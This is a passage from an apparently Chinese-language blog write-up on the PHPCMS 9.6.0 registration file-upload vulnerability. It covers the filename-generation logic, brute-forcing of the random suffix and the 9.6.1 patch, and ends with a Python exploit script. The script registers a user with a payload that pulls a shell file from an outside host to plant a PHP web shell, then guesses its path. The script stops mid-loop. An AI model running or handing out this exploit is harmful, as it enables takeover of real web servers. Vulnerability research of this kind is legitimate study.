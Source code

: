 另外在 phpsso 没有配置好的时候$status的值为空，也同样不能得到路径。 这个时候程序会报错为:`operation_failure`
![image.png](http://upload-images.jianshu.io/upload_images/2159605-2dab46eefe45f7c8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


2.  在无法得到路径的情况下我们只能爆破了， 文件名生成的方法为:

```
function getname($fileext){
	return date('Ymdhis').rand(100, 999).'.'.$fileext;
}
```

因为我们只需要爆破rand(100,999)即可，很容易爆破出来文件名


## 补丁
在phpcms9.6.1中修复了该漏洞，修复方案就是对用fileext获取到的文件后缀再用黑白名单分别过滤一次。
![image.png](http://upload-images.jianshu.io/upload_images/2159605-f61e0d45b0b6e9a4.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)




exp:

```
import re
import requests
import random
import time

def randomstring(length):
    s = ''
    dic = "abcdefghijklmnopqrstuvwxyz"
    for i in range(int(length)):
        s += dic[random.randint(0,25)]
    return s

def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '11',
        "username": "%s"%randomstring(12),
        "password": "%s"%randomstring(12),
        "email": "%s@qq.com"%randomstring(12),
        'info[content]': '<img src=http://xxx/shell.txt?.php#.jpg>',
        'dosubmit': '1',
    }
    headers = {
        'cookie:':'PHPSESSID=t3id73sqv3dbnkhbbd0ojeh5r0; XDEBUG_SESSION=PHPSTORM'
    }
    rep = requests.post(u, data=data)
    #print rep.content

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        if shell:
            print 'shell:',shell

    tmp = time.strftime('%Y%m%d%I%M%S',time.localtime(time.time()))
    path = time.strftime('%Y',time.localtime(time.time()))+'/'+time.strftime('%m%d',time.localtime(time.time()))+'/'
    for i in range(100,999):
        filename = tmp+str(i)+'.php'
        shell = url+'uploadfile/'+path+filename
```